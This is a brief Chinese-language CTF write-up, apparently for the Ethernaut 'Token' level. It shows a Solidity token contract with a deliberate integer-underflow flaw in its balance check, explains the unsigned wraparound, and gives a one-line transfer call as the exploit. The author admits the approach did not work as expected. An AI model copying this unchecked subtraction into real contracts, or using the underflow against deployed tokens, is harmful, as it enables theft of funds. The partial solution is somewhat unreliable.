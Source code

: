 # 说明
此级别的目标是让您破解下面的基本代币合约。
一开始你会得到 20 个代币，如果你设法拿到任何额外的代币，你就会通过关卡。最好是非常大量的代币。


```
mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

```
关键代码在于存储`mapping(address => uint) balances;`使用无符号数，然后require和转账都使用了减法 `balances[msg.sender] - _value`,所以利用溢出的特点
例如
```
    uint8 A = 20; // (max storable # is 255)
    uint8 B = 21;

    A - B ---> 255
```

# 解决方案
需要通过合约进行调用，直接通过transfer事件会失败，想不通

```
 await   contract.transfer(player, 21)
```

